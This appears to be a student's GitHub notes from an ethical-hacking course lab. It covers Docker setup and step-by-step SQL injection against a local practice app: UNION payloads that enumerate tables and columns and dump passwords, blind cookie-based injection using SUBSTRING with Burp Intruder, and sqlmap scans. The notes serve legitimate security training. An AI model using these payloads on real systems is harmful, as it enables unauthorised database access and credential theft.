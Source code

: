 ## Finding and Exploitation of common web vulnerabilities

### 🔵 PEH Docker lab setup and usage instructions:

    apt update
    apt upgrade
    apt install docker.io
    apt install docker-compose
if no running docker daemon then start it (assuming we have docker io / docker compose installed)

check status:  

    systemctl status docker  
start docker:  

    systemctl start docker (if required)
    docker-compose up
stop container:  

    ctrl c  
have docker run in the background use -d for detached mode:  
    
    docker-compose -d
to check what dockers are running:  
    
    docker ps -a  
to stop:

    docker-compose stop
to remove a container, look for container ID and remove:

    docker rm 02dfB1w20cdcd11ee
to remove all containers:

    docker -rm $(sudo docker ps -aq)

to reset the instance from browser when docker instances are live:

    localhost/init.php

#### Once PEH docker is installed, with ./permission.sh file set, run localhost from burpe browser.

---

### 🔴 SQL Injection - Introduction Injection 0x01:

#### Lab 0x01 UNION 

User search: jeremy presents username and email fields  
![image](https://github.com/user-attachments/assets/ff8b811f-0322-46f2-80f7-2bb05f3518b3)

When probing a new site, firstly understand what the function is providing. Begin by probing with common inputs ', ' ', example', " ", "example"  

Then move on to using **logical operators**  
jeremy' or 1=1#  
jeremy' or 1=1-- -  

if successful move to using **union select** and figuring out the amount of null values required to return a response  
jeremy' union select null#  
jeremy' union select null,null,null#  

the third null respondes with results, indicating it has selected three coloumns in the background, loaded more information but only presenting two for us to see.  
![image](https://github.com/user-attachments/assets/45806752-eb2c-4640-81ed-0ad1e6a8389b)

jeremy' union select null,null,version()#  
![image](https://github.com/user-attachments/assets/8f0e98a3-6470-461a-a92d-295c4392b99a)

**Expanding this to look at the table names from the database**  
jeremy' union select null,null,table_name from information_schema.tables#  

**Expand this to look at the collumn names from the database**  
jeremy' union select null,null,column_name from information_schema.columns#

**Now to look for Jeremys or other password from this database, we need to identify the table (injection0x01) his details belongs to using the tables query**  

jeremy' union select null,null,password from injection0x01#
![image](https://github.com/user-attachments/assets/2a90862c-613b-4c97-a679-ffd62e8710e4)

**Note for intergers, in siutations such as user has an ID - Rare, may need to look into this more**  
jeremy' union select null(int),null,null from injection0x01#  

for example we may require the usage below to work with some queries  
jeremy' union select username,1,passwords from injection0x01#  

**Cheat Sheet PortSwigger website for different SQL injection databases**  
<https://portswigger.net/web-security/sql-injection/cheat-sheet>  

---

### 🔴 SQL Injection - Blind Part 1 Injection 0x02:  

#### Lab 0x02 BLIND INJECTION  
Testing the behaviour of the application.  

* Target: adding the target url to reduce noise  
* Proxy/HTTP history: to view request and response  
* Repeater: send captured Request or Response traffic to view and manipulate. Items to look out for: Cookies, Content Length  

![image](https://github.com/user-attachments/assets/ce2c8585-3af9-41a2-aa8d-038d95f1e5ae)

#### Probe  
Here we attempt basic SQL changes in the POST:request data by probing the username section with url encoded jeremy' or 1=1# and testing it with other common formats, whilst also checking if the response content-length changes to a succesful one.  

#### SQLMAP (to help look for wins)  
After multiple failed attempts, we can move to a tool called sqlmap. From the clean Repeater:Request window with the working credentials. Copy and paste into a .txt file.  

![image](https://github.com/user-attachments/assets/d6f2b0f6-222b-476e-8e37-1886b81bcf91)  

    sqlmap -r sqltraining.txt

![image](https://github.com/user-attachments/assets/11632c30-c902-4740-9560-999972de3349)  

it looks like nothing from this captured POST request can be exploited based from these checks.

#### Check for other injections points  
After the POST:request is sent, we notice there is a GET:request containing cookies. This means it also has to be processed as well by the application. Taking note of the 'content length' of a successful Request, we can begin checking basic SQL injection queries with the cookie.  

![image](https://github.com/user-attachments/assets/88ab0d83-9b46-4846-ad32-86f7662fead8)

Here we have sucessfully manupilated the cookie section by injecting SQL into it, indicating this area is vulnerable.

### 🔴 SQL Injection - Blind Part 2 Injection 0x02: 

#### Lab 0x02 BLIND INJECTION  
We have now identified a Blind SQL injection, because the query is only changing the behaviour of the application. I.E the content-length or 'welcome' message when query is true. And through this we are able to exploit this behaviour to slowly extract data via True or False queries.  

#### 🔨 MANUAL Probe with SUBSTRING(string, start, length) <https://www.w3schools.com/jsref/jsref_substring.asp>  
From the manipulated query we can slowly extract data via adding substrings into the query. As seen below, 'a' is 1st of 1 length = 'a', if true it will return a positive content-length.
![image](https://github.com/user-attachments/assets/386375e9-3e35-4f88-9fd6-135b5c16d19a)  

'alex' is 1st of 3 length = 'ale'  
![image](https://github.com/user-attachments/assets/2e3add93-4bab-474c-9dfe-7d99f0313895)  

Extracting the SQL database version, by slowly iterating the length upwards as the version numbers match.  
![image](https://github.com/user-attachments/assets/7617e57e-4eef-47e3-a438-a549043a2d87)  

Exercise: Extracting the password for jessamy via blind injection is very manual, so therefore we will send it to Intruder to conduct a sniper attack  
![image](https://github.com/user-attachments/assets/fdb58a23-f339-4d8d-9b3d-8a7bda91eae3)  

Exercise: In intruder we have set our 'payload position' and custom payload configuration of strings to test in the selected position  
![image](https://github.com/user-attachments/assets/47ca1cae-0ace-49e9-8ad2-76d57c923110)  

Exercise: Here we find a unique length response paired with the Response recieved with a content-length:1027. Suggseting the character z exists. 
![image](https://github.com/user-attachments/assets/ab7bbb72-4b3f-4ffb-8057-3a38f20355c6)  

---

#### ⚒️ AUTOMATIC Probe with SQLMAP  

Grabbing the original GET request, we store it into a .txt file to be sacnned with 'sqlmap -r file.txt --level=2'  

![image](https://github.com/user-attachments/assets/6f72fcd0-2a69-4f8b-b2e5-df3518d3ad37)  

sqlmap -r file.txt > 
![image](https://github.com/user-attachments/assets/566e1108-9cd2-4e51-a3f8-7000a2df436d)  



